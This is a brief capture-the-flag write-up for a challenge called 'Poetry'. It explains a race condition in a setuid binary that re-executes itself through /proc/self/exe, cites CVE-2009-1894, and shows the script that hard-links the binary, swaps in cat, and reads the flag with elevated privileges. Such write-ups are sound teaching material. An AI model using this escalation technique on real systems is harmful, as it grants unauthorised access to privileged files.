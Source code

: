 # Poetry 

CVE-2009-1894 problem. 

poetry binary call execv() syscall. and parameter is readed link for '/proc/self/exe'. And, it has 's' flag.

This link point to execute command. So, there is some race.

I make some link to original file, name exploit, after then replace 'exploit' to another binary. I can execute some binary for 'poetry' privilege!

https://blog.stalkr.net/2010/11/exec-race-condition-exploitations.html

I used exploit 3 at this blog

```
conn.sendline("cd /home/user")
# make hard link to vulnerable binary
conn.sendline("ln -f /home/poetry/poetry ./exploit")
# Save some information (including owner and setuid bit) about vulnerable binary
conn.sendline("exec 3< ./exploit")
# replace hard link to cat
conn.sendline("rm -f exploit")
conn.sendline("cp /bin/cat './exploit (deleted)'")

# execute it!
conn.sendline("exec /proc/$$/fd/3 /home/poetry/flag")
```

CTF{CV3-2009-1894}